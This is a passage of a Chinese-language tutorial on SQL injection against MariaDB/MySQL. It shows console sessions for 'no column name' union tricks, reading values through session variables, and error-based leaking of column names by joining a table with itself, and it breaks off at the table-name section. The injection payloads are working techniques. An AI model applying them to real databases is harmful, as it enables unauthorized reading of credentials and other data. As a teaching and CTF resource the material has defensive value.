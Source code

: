 ```mysql

MariaDB [test]> select * from user where id=1 union select (select e.3 from (select * from (select 1)a,(select 2)b,(select 3)c union select * from user)e limit 1 offset 3),2,3;
+------+----------+--------+
| id   | username | passwd |
+------+----------+--------+
| 1    | admin    | admin  |
| 2333 | 2        | 3      |
+------+----------+--------+
2 rows in set (0.001 sec)
```

**变量**

**使用变量需要执行两次`sql`**

```mysql
MariaDB [test]> select * from user limit 0,1 into @a,@b,@c;
Query OK, 1 row affected (0.001 sec)

MariaDB [test]> select * from user where username='' union select @a,@b,@c;
+------+----------+--------+
| id   | username | passwd |
+------+----------+--------+
|    1 | admin    | admin  |
+------+----------+--------+
1 row in set (0.002 sec)
```

#### 可报错时爆表名、字段名、库名

**字段名**

**无列名注入，但是如果再进行限制，不允许使用`union`该怎么破呢？**

```mysql
MariaDB [test]> select * from user where id=1 and (select * from (select * from user as a join user as b) as c);
ERROR 1060 (42S21): Duplicate column name 'id'
```

**把当前表第一个字段成功爆出来了。这个的原理就是在使用别名的时候，表中不能出现相同的字段名，于是我们就利用`join`把表扩充成两份，在最后别名 c 的时候查询到重复字段，就成功报错。**

**同时，可以利用`using`爆其他字段：**

```mysql
MariaDB [test]> select * from user where id=1 and (select * from (select * from user as a join user as b using(id)) as c);
ERROR 1060 (42S21): Duplicate column name 'username'

MariaDB [test]> select * from user where id=1 and (select * from (select * from user as a join user as b using(id,username)) as c);
ERROR 1060 (42S21): Duplicate column name 'passwd'
```

**表名**

